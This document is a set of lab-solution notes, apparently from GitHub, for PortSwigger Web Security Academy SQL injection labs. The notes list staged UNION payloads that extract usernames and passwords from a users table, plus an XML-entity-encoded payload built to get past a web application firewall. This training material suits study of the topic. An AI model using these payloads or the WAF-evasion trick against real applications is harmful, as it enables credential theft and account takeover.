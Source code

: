 https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

table
users

columns
username
password.

stage1:
'+union+SELECT+null+FROM+users--+

stage 2:
Gifts'+union+SELECT+null,null+FROM+users--+

stage 3:
Gifts'+union+SELECT+null,'null'+FROM+users--+

stage 4:
Gifts'+union+SELECT+null,username || ' **\*** ' || password+FROM+users--+

final payload:
Gifts'+union+SELECT+null,username+||+'+++**\***+++'+||+password+FROM+users--+

# [**_5. Lab: SQL injection with filter bypass via XML encoding_**](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

This lab contains a SQL injection vulnerability in its **stock check feature**. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
Hint

A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this.

payload:
<storeId>&#117;nion &#115;elect username || &apos; &apos; || password from users</storeId>

in class:

# [**_6. SQL injection attack, listing the database contents on non-Oracle databases_**](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
